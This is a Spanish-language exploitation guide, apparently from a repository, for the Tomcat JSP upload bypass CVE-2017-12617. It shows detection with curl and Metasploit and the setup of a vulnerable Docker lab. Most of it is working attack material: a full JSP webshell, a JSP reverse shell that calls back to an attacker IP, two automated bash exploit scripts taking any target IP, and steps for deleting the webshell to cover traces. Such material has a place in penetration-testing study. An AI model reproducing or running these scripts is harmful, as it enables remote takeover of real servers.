


# Tomcat (CVE-2017-12617)

| CVE | CVE-2017-12617 |
| --- | --- |
| Nombre de la Vulnerabilidad | JSP Upload Bypass |
| Tipo | Remote Code Execution |
| **Plataforma** | JSP |
| CVSS | **8.1 HIGH** |
| Descripción | Afecta a las versiones 9.0.0.M1 a 9.0.0, 8.5.0 a 8.5.22, 8.0.0.RC1 a 8.0.46 y 7.0.0 a 7.0.81. Esta vulnerabilidad permite la ejecución remota de código (RCE) cuando el método HTTP PUT está habilitado en el servidor, lo cual se puede hacer estableciendo el parámetro de inicialización `readonly` del servlet predeterminado en `false`.
Un atacante puede cargar un archivo JSP malicioso en el servidor a través de una solicitud especialmente diseñada usando el método PUT. Una vez cargado, este archivo JSP puede ser solicitado y ejecutado, permitiendo al atacante ejecutar cualquier código que haya incluido en el archivo, lo que puede llevar a la completa toma de control del servidor. |
| Fecha | 2017-10-09
 |

 

# Tabla de Contenido

---

# Detección de vulnerabilidad

---

## CURL

```bash
**curl** -X PUT --data '<% out.println("VULNERABLE");%>' http://*TARGET_IP*:*PORT*/check.jsp**/**
**curl** http://*TARGET_IP*:*PORT*/check.jsp
**curl** -X DELETE http://*TARGET_IP*:*PORT*/check.jsp**/**
**curl** -w "%{http_code}" -s -o /dev/null http://*TARGET_IP*:*PORT*/check.jsp
```



> NOTA: En las peticiones que utilizan un método diferente al GET, como, PUT o DELETE se debe agregar un “**/**” al final de la URL para que funcione.
> 

## METASPLOIT

```bash
**use** exploit/multi/http/tomcat_jsp_upload_bypass
**set** RHOSTS *TARGET_IP*
**check
[+]** 10.3.21.138:8080 - Target is vulnerable.
```

# Preparación de entorno vulnerable

---

## Instalación de Docker

```bash
**apt** install docker.io -y
```

## Inicialización del servicio Docker

```bash
**service** docker start
```

## Descarga de imagen de Tomcat vulnerable

```bash
**docker** pull sammol1120/vulnerable-tomcat
```

## Inicialización de contenedor

```bash
**docker** run -itd --name vulnerable_tomcat -p 80:8080 sammol1120/vulnerable-tomcat
```

## Confirmación de funcionamiento

```bash
**curl** -I -s http://127.0.0.1:80
```


# Explotación

---

## CURL / MANUAL

WebShell a utilizar. Este Payload está escrito en **Java web**.

```java
<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>
```

Subida de archivo con payload correspondiente.

```bash
**curl** -X PUT --data '<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>' http://*TARGET_IP*:*PORT*/poc.jsp**/**
```


Ejecución del comando **whoami**.

```bash
**curl** http://*TARGET_IP*:*PORT*/poc.jsp?cmd=***whoami***
```


Ejecución de comando y limpieza de output.

```bash
**curl** http://*TARGET_IP*:*PORT*/poc.jsp?cmd=***whoami** | **sed** 's/<[^>]*>//g'*
```


Ejecución de comando desde el navegador.



## METASPLOIT

```bash
**use** exploit/multi/http/tomcat_jsp_upload_bypass
*Using configured payload generic/shell_reverse_tcp*

**set** RHOST 127.0.0.1
*RHOST => 127.0.0.1*

**set** RPORT 80
*RPORT => 80*

**exploit**

**[*]** Started reverse TCP handler on 127.0.0.1:4444 
**[*]** Uploading payload...
**[*]** Payload executed!
**[*]** Command shell session 1 opened (127.0.0.1:4444 -> 172.17.0.2:36256) at 2024-07-02 15:31:51 -0500

whoami
root
```

# Limpieza de huellas

---

Eliminación de webshell.

```bash
**curl** -X DELETE http://*TARGET_IP*:*PORT*/poc.jsp**/**
```


Confirmación de eliminación.

```bash
**curl** -w "%{http_code}" -s -o /dev/null http://*TARGET_IP*:*PORT*/poc.jsp
```


# Automatización de explotación manual

---

## Autoexploit - Web Shell

Código autoexploit. Colocar dentro de un archivo **.sh** y otorgar permisos de ejecución con `chmod +x autoexploit.sh`.

```bash
#!/bin/bash

target=$1
port=$2

if [[ $1 || $2 ]]; then
	echo -e "\n[*] Checking whether target is vulnerable...";
	isvuln=$(curl -X PUT -s http://$target:$port/check.jsp/ && echo "VULNERABLE")
	if [[ $isvuln -eq "VULNERABLE" ]];then
		
		echo -e "\n[+] $target:$port vulnerable to JSP Upload Bypass";

		$(curl -X PUT -s --data '<FORM METHOD=GET ACTION='poc.jsp'> <INPUT name='cmd' type=text> <INPUT type=submit value='Run'> </FORM> <%@ page import="java.io.*" %> <% String cmd = request.getParameter("cmd"); String output = ""; if(cmd != null) { String s = null; try { Process p = Runtime.getRuntime().exec(cmd,null,null); BufferedReader sI = new BufferedReader(new  InputStreamReader(p.getInputStream())); while((s = sI.readLine()) != null) { output += s+"</br>"; }} catch(IOException e) { e.printStackTrace(); }} %> <pre><%=output %></pre>' http://$target:$port/poc.jsp/) && echo -e "\n[SUCCESS] webshell uploaded\n\n[+] Webshell working at http://$target:$port/poc.jsp"
		
	else
		echo "$target:$port IS NOT VULNERABLE"

	fi

	curl -X DELETE -s http://$target:$port/check.jsp/

else
	echo 'use: ./autoexploit_tomcat <target-ip> <target-port>'
fi
```

Ejecución de autoexploit.

```bash
**./autoexploit.sh** *TARGET_IP PORT*
```


Otorgamiento de permisos de ejecución

```bash
**chmod** +x autoexploit.sh
```


Ejecución de **autoexploit.sh**.

```bash
**./autoexploit.sh** *TARGET_IP PORT*
```


Webshell desde el navegador.


## Autoshell - Reverse Shell

Siguiendo el mismo concepto inyectaremos otro código que en lugar de retornarnos una **webshell** nos retornará una **reverse shell**. El payload a inyectar es el siguiente:

> NOTA: Sustituimos la IP y el puerto **que se encuentran en rojo** por la IP de la máquina atacante y el puerto en el queremos recibir la conexión.
> 

```java
<%@page import="java.lang.*"%><%@page import="java.io.*"%><%@page import="java.net.*"%><%@page import="java.util.*"%><html><head>    <title>jrshell</title></head><body><form METHOD="POST" NAME="myform" ACTION="">    <input TYPE="text" NAME="shell">    <input TYPE="submit" VALUE="Send"></form><pre><% String shellPath = null; try { if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) { shellPath = new String("/bin/sh"); } else { shellPath = new String("cmd.exe"); } } catch( Exception e ){} if (request.getParameter("shell") != null) { out.println("Command: " + request.getParameter("shell") + "\n<BR>"); Process p; if (shellPath.equals("cmd.exe")) p = Runtime.getRuntime().exec("cmd.exe /c " + request.getParameter("shell"));        else            p = Runtime.getRuntime().exec("/bin/sh -c " + request.getParameter("shell"));        OutputStream os = p.getOutputStream();        InputStream in = p.getInputStream();        DataInputStream dis = new DataInputStream(in);        String disr = dis.readLine();        while ( disr != null ) {            out.println(disr);            disr = dis.readLine();        }    } class StreamConnector extends Thread    {        InputStream wz;        OutputStream yr;        StreamConnector( InputStream wz, OutputStream yr ) {            this.wz = wz;            this.yr = yr;        }        public void run()        {            BufferedReader r  = null;            BufferedWriter w = null;            try            {                r  = new BufferedReader(new InputStreamReader(wz));                w = new BufferedWriter(new OutputStreamWriter(yr));                char buffer[] = new char[8192];                int length;                while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 )                {                    w.write( buffer, 0, length );                    w.flush();                }            } catch( Exception e ){}            try            {                if( r != null )                    r.close();                if( w != null )                    w.close();            } catch( Exception e ){}        }    }     try {        Socket socket = new Socket( "**192.168.56.128**", **443** ); Process process = Runtime.getRuntime().exec( shellPath ); new StreamConnector(process.getInputStream(), socket.getOutputStream()).start(); new StreamConnector(socket.getInputStream(), process.getOutputStream()).start(); out.println("port opened on " + socket); } catch( Exception e ) {}%></pre></body></html>
```

Haremos unos cuantos arreglos al payload como escapar los caracteres **“** para encerrar todo el payload entre dobles comillas y así indicar la IP y el puerto de la máquina atacante de manera dinámica. Además hicimos algunos arreglos al exploit anterior para que pueda recibir la conexión inversa con Netcat sin necesidad de manualmente ponernos en escucha en otra terminal.

El exploit final quedaría de la siguiente forma:

```bash
#!/bin/bash

target=$1
rport=$2
attacker=$3
lport=$4

if [[ $1 || $2 || $3 || $4 ]]; then
	echo -e "\n[*] Checking whether target is vulnerable...";
	isvuln=$(curl -X PUT -s http://$target:$rport/check.jsp/ && echo "VULNERABLE")
	if [[ $isvuln -eq "VULNERABLE" ]];then
		
		echo -e "\n[+] $target:$rport vulnerable to JSP Upload Bypass";

		$(curl -X PUT -s --data "<%@page import=\"java.lang.*\"%><%@page import=\"java.io.*\"%><%@page import=\"java.net.*\"%><%@page import=\"java.util.*\"%><html><head>    <title>jrshell</title></head><body><form METHOD=\"POST\" NAME=\"myform\" ACTION=\"\">    <input TYPE=\"text\" NAME=\"shell\"> <input TYPE=\"submit\" VALUE=\"Send\"></form><pre><% String shellPath = null; try { if (System.getProperty(\"os.name\").toLowerCase().indexOf(\"windows\") == -1) { shellPath = new String(\"/bin/sh\"); } else { shellPath = new String(\"cmd.exe\"); } } catch( Exception e ){} if (request.getParameter(\"shell\") != null) { out.println(\"Command: \" + request.getParameter(\"shell\") + \"\n<BR>\"); Process p; if (shellPath.equals(\"cmd.exe\")) p = Runtime.getRuntime().exec(\"cmd.exe /c \" + request.getParameter(\"shell\")); else p = Runtime.getRuntime().exec(\"/bin/sh -c \" + request.getParameter(\"shell\")); OutputStream os = p.getOutputStream(); InputStream in = p.getInputStream(); DataInputStream dis = new DataInputStream(in); String disr = dis.readLine(); while ( disr != null ) { out.println(disr); disr = dis.readLine(); } } class StreamConnector extends Thread { InputStream wz; OutputStream yr; StreamConnector( InputStream wz, OutputStream yr ) { this.wz = wz; this.yr = yr; } public void run() { BufferedReader r  = null; BufferedWriter w = null; try { r  = new BufferedReader(new InputStreamReader(wz)); w = new BufferedWriter(new OutputStreamWriter(yr)); char buffer[] = new char[8192]; int length; while( ( length = r.read( buffer, 0, buffer.length ) ) > 0 ) { w.write( buffer, 0, length ); w.flush(); } } catch( Exception e ){} try { if( r != null ) r.close(); if( w != null ) w.close(); } catch( Exception e ){} } } try { Socket socket = new Socket(\"$attacker\", $lport); Process process = Runtime.getRuntime().exec( shellPath ); new StreamConnector(process.getInputStream(), socket.getOutputStream()).start(); new StreamConnector(socket.getInputStream(), process.getOutputStream()).start(); out.println(\"port opened on \" + socket); } catch( Exception e ) {}%></pre></body></html>" http://$target:$rport/poc.jsp/) && echo -e "\n[SUCCESS] payload uploaded"
		
		echo -e "\n[*] Executing reverse shell";

		((sleep 3s && curl -s -o /dev/null http://$target:$rport/poc.jsp) && echo -e "\n[+] Established connection\n") &
		
		ncat -lkp 443

	else
		echo "$target:$rport IS NOT VULNERABLE"

	fi

	curl -X DELETE -s http://$target:$rport/poc.jsp/
	curl -X DELETE -s http://$target:$rport/check.jsp/

else
	echo 'use: ./autoexploit_tomcat <target-ip> <target-port> <attacker-port>'
fi

```

Ahora solo ejecutamos el script autoshell.

> ***TARGET_IP*** es la IP del máquina víctima. ***RPORT*** es el puerto donde está corriendo Tomcat vulnerable. ***ATTACKER_IP*** es la IP de la máquina atacante. ***LPORT*** es el puerto de la máquina atacante donde se recibirá la shell reversa.
> 

```bash
**./autoshell.sh** *TARGET_IP RPORT ATTACKER_IP LPORT*
```


## Tratamiento de la TTY - EXTRA

> Esto hará que la shell obtenida se persiva lo más interativa posible.
> 

```bash
**script** /dev/null -c /bin/bash
**export** TERM=xterm

*CTRL+Z              --- SUSPENDE LA CONEXIÓN PERO, NO LA CIERRA.*

**stty** -echo raw
**fg**                  *--- REGRESA A LA CONEXIÓN SUSPENDIDA.

ESCRIBE 'reset'*
```